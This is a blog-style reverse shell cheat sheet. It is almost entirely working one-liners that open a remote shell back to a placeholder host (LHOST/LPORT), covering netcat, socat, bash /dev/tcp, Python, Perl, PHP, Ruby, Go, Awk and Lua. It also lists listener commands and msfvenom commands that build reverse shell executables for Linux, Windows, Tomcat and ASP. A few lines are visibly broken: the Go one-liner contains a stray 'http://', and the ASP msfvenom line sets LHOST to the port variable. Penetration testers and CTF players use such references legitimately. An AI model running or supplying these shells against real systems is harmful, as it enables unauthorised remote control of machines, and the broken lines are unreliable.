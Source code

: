 ```yaml
---
layout: post
author: hyprcub
title: Reverse Shell Cheat Sheet
tags: cheatsheet
---
```

# References

- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- Reverse shell cheat sheets:
	- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is really awesome place to look for exotic shells
	- [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
	- [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

# General advices

- Don't forget to check for other shells than `sh` or `bash`: `ash`, `bsh`, `csh`, `ksh`, `zsh`, `pdksh`, `tcsh`. And so one, be creative.
- If your favorites `1234` or `1337` TCP ports don't work, try `80/tcp` or UDP ports as there's maybe filtering in place.

# Listeners

| Command | Description |
|---------|-------------|
| `nc -nlvp LPORT` | netcat on TCP |
| `nc -u -nlvp LPORT` | netcat on UDP |
| `socat -d -d TCP4-LISTEN:LPORT STDOUT` | socat (yes 2 `-d`'s) |

# Short One-liners

Replace `LHOST` with your IP and `LPORT` with your port. Don't forget to try **80/tcp** if you don't get your shell.

| Command | Description |
|---------|-------------|
| `nc -nv LHOST LPORT -e /bin/sh` | [Traditional netcat](http://www.stearns.org/nc/) |
| `ncat -nv LHOST LPORT -e /bin/sh` | [Nmap ncat](https://nmap.org/ncat//) |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f` | OpenBSD netcat (doesn't have `-e` switch) |
| `socat TCP4:LHOST:LPORT EXEC:/bin/sh` | [Socat](http://www.dest-unreach.org/socat/) |
| `/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1` | Bash TCP, works with `sh` too |
| `/bin/bash -i >& /dev/udp/LHOST/LPORT 0>&1` | Bash UDP with listener `nc -u -lvp LPORT` |
| `0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196` | sh |

# Language Specific

| Command | Description |
|---------|-------------|
| `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` | Python |
| `perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` | Perl |
| `php -r '$sock=fsockopen("LHOST",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'` | PHP |
| `ruby -rsocket -e'f=TCPSocket.open("LHOST",LPORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'` | Ruby |

Golang
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","LHOST:LPORT");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

Awk
```
awk 'BEGIN {s = "/inet/tcp/0/LHOST/LPORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

Lua (linux only)
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('LHOST','LPORT');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

# Msfvenom generated 

Here the shell variables `lhost` and `lport` are set accordingly:
```bash
export lhost=$(ip address show tun0 | grep "inet " | awk '{print $2}' | cut -d "/" -f 1)
export lport=443
```

| Command | Description |
|---------|-------------|
| `msfvenom -p cmd/unix/reverse_netcat LHOST=$lhost LPORT=$lport` | netcat |
| `msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell` | Linux 32bits bin|
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell` | Linux 64bits bin|
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$lhost LPORT=$lport -f war -o myshell.war` | Tomcat |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe -o myshell.exe` | Windows bin |
| `msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=$lport -f asp -o myshell.asp` | ASP |
